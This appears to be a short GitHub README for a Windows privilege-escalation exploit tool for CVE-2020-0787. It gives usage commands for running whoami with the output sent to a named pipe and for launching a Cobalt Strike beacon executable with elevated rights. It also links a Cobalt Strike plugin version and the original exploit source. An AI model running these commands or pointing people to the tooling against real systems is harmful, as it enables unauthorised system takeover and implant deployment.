 
## CVE-2020-0787（named pipe）
It's Just A Demo,Do not use in real.

-Get result for Command execution(Use cmd /c)：
`exp.exe "cmd /c whoami > \\\\.\\pipe\\showme " show`

-Run beacon.exe：
`exp.exe "C:/beacon.exe"`

![](https://cdn.jsdelivr.net/gh/yanghaoi/CVE-2020-0787@latest/index.gif)

## For CobaltStrike
It's better one than current project:
https://github.com/yanghaoi/ReflectiveDllSource/tree/master/CVE-2020-0787_CNA

## Reference 
Source from: https://github.com/cbwang505/CVE-2020-0787-EXP-ALL-WINDOWS-VERSION

